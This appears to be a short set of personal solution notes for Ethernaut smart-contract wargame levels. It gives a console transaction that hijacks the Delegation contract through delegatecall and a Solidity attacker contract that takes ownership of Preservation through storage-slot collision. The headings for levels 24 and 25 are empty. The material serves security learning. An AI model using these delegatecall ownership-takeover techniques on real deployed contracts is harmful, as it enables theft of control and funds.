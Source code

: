 ## Ethernaut6 
    -Send a transaction to Delegation, triggering the fallback() 
    -The data "0xdd365b8b" == "pwn()", so it will trigget the pwn() function in the Delegate contract
    and it will change the owner state variable of Delegation contract
`await contract.sendTransaction({from: player, to: instance, data: "0xdd365b8b"})`

## Ethernaut 16

    -From Preservation contrat we will call setFirstTime(uint _timeStamp) function
    -This function will do a delegatecall to contract Library{} which will update the slot#0 variable in Preservation contract
    -So we will change the slot#0 in Preservation for a new attacker contract
    -So the second time we call the setFirstTime(uint _timeStamp), it won't call the Library contract, it will call our attacker contract
    -and our attacker contract will update the slot#2 on Preservation contract which is the owner()
```
contract Attacker{
    //same layout of Preservation contract
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    Preservation public target;

    constructor(Preservation _address){
        target = _address;
    }

    //1st step, change the slot#0 in Preservation-->   address public timeZone1Library;
    function setTimeZone1LibraryToAttackerContract() public {
        uint256 _addressUint = uint160(address(this));
        target.setFirstTime(_addressUint);
    }

    //2nd step, create a function that will update the slot#2
    //it must have the same signature "setTime(uint _time)"
    function setTime(uint _time) public {
        owner = msg.sender;
    }

    //NOTE: Instead of calling the setFirstTime(uint) from remix
    //I sent a transaction from the console:
    //await contract.setFirstTime(123)
}
```

## Ethernaut 24

## Ethernaut 25 (proxy of the proxy)
